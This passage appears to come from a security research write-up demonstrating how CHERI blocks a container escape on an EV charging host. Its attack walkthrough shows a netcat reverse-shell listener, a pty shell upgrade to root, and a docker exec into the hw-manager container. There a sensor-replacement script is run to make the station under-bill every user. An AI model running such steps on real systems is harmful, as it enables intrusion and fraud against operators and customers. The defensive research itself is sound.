     - When the code executes on the host machine a reverse shell is received on the attacker machine.
    - Persistence Stage
        - Once the connection is established, the attacker upgrades to a better shell. 
        ```bash
        ──╼ $nc -lvnp 9999
        listening on [any] 9999 ...
        connect to [192.168.0.102] from (UNKNOWN) [192.168.0.14] 60538
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        root@deb-morello-3:/root# whoami
        whoami
        root
        root@deb-morello-3:/root# ls
        ls
        DSbD  cyberhive-connect_3.5.1-4dac419_arm64.deb  hnc-demo
        ```
        - Then the attacker goes into the `hw-manager` container to replace a sensor using the `sensor_replacement.sh` script. This will cause the system to charge less money per kWh charged. This will remain the same for every other user that uses this station.
        ```bash
        root@deb-morello-3:/root# target_container=$(docker ps | grep hw-manager | cut -d" " -f1)
        <iner=$(docker ps | grep hw-manager | cut -d" " -f1)
        root@deb-morello-3:/root# docker exec -ti $target_container /bin/bash
        docker exec -ti $target_container /bin/bash
        root@deb-morello-3:/app# chmod +x sensor_replacement.sh              
        chmod +x sensor_replacement.sh
        root@deb-morello-3:/app# ./sensor_replacement.sh
        ./sensor_replacement.sh
        root@deb-morello-3:/app# ls
        ls
        Dockerfile    ev_sensor_hijack.sh  mem_inject		  shawshank.py
        ev_sensor     ev_sensor_orig	   nohup.out		  shawshank.tar
        ev_sensor.c   hw-io.py		   requirements.txt
        ev_sensor.py  hw-manager.py	   sensor_replacement.sh
        ```

- CHERI Prevention
    - If the process that is being targeted was pure cap CHERI, injection does not lead to code execution on the host as the targeted process breaks with a capability tag fault, effectively preventing the execution of the injected code, and hence privilege escalation and container escape. Hence if the attacker cannot find a non-cheri process, the container escape should fail for this method.

- Architectural Diagram of the Scenario